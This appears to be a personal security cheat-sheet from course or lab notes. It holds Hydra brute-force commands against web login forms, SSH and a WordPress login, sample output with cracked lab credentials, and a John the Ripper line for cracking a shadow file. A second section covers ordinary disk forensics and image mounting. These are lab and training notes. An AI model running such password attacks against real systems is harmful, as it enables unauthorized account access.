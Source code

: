 ```
hydra -l test -P /usr/share/dirb/wordlists/big.txt 10.5.134.55 -s 90 http-post-form "/pass/index.html:password=^PASS^:405" -V

touch wl.txt
echo "foo" > wl.txt
hydra -l mail@mwager.de -P ./wl.txt https://testphp.vulnweb.com http-post-form "/login:emailOrPhone=^USER^&password=^PASS^" -V


# Block 10 Aufgabe 1:
$ hydra -l jacobs -P /usr/share/wordlists/npt_list.txt 10.5.201.23  ssh -V -I
[22][ssh] host: 10.5.201.23   login: jacobs   password: daniela

# hydra wordpress:
# 1. check for usernames:
hydra -vV -L fsocity.dic -p wedontcare 10.10.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

few minutes later....
>> [80][http-post-form] host: 192.168.2.4 login: elliot password: mypassword

# 2. check for password:
hydra -vV -l elliot -P fsocity.dic 10.10.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'

# Wordpress msfconsole (if you have admin access)
https://blog.christophetd.fr/write-up-mr-robot/

also:
crunch, john the ripper etc...

john --wordlist=/usr/share/wordlists/npt_list.txt shadow-file # eg /etc/shadow
```

### Discs & Forensics

```bash
strings /some/binary/fat.raw | less
strings /dev/sdb | less

# get filesystem
fstyp /dev/disk2s1 # partition of a usb stick
file /dev/disk2s1

# Mounting
mount -t hfs /dev/disk2s1 /tmp
# Disk read-only? fix it:
sudo hdparm -r0 /dev/sdb

# Mount a raw hfs image in OSX
0. sudo dd if=/dev/disk2 of=/Volumes/Backup2/olddisk.raw bs=8m conv=noerror,sync # ~13h for 500GB
1. hdiutil attach -imagekey diskimage-class=CRawDiskImage -nomount /Volumes/Backup2/olddisk.raw
2. in disk utils „aktivieren“ - all data accesible!
```

